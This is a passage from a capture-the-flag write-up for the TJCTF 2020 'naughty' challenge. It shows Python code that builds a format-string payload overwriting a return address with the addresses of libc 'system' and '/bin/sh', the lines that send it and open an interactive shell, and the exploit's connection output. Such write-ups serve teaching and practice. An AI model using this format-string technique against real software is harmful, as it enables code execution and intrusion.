 That's a few more candidates than usual.  No worries, just test them one by one.  The 3rd down was a hit.  You can verify when computing the base of libc, it should end in `000`.  But, the real test will be if `system` also can be called.


### Get a shell, get the flag

```python
### 2nd pass
p.recvuntil('What is your name?')

binsh = baselibc + next(libc.search(b"/bin/sh"))
system = baselibc + libc.symbols['system']

words = {}
words[system & 0xFFFF] = return_address
words[system >> 16]    = return_address + 2
words[binsh & 0xFFFF]  = return_address + 8
words[binsh >> 16]     = return_address + 10

n=0; q=7+16; payload = b''
for i in sorted(words):
    payload += b'%' + str(i-n).rjust(6,'0').encode() + b'x'
    payload += b'%' + str(q).rjust(4,'0').encode() + b'$hn'
    n += (i-n)
    q += 1

for i in sorted(words):
    payload += p32(words[i])
```

With the return address stack location in hand, and the base of libc known, just construct a payload to call `system` with a pointer to `/bin/sh`.

> See [dorsia3](https://github.com/datajerk/ctf-write-ups/blob/master/wpictf2020/dorsia3/README.md) for a detail explanation of how this format string is constructed.

> Optionally `one_gadget` could probably be used, but the above is portable and a bit more surgical, IMHO.

Get a shell, get the flag:

```
p.sendline(payload)
p.recvline()
p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8004: Done
[*] '/pwd/datajerk/tjctf2020/naughty/libc-database/db/libc6-i386_2.27-3ubuntu1_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/naughty/naughty'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
_IO_2_1_stdin_ 0xf7fc05c0
baselibc 0xf7deb000
return_address 0xffd74a3c
```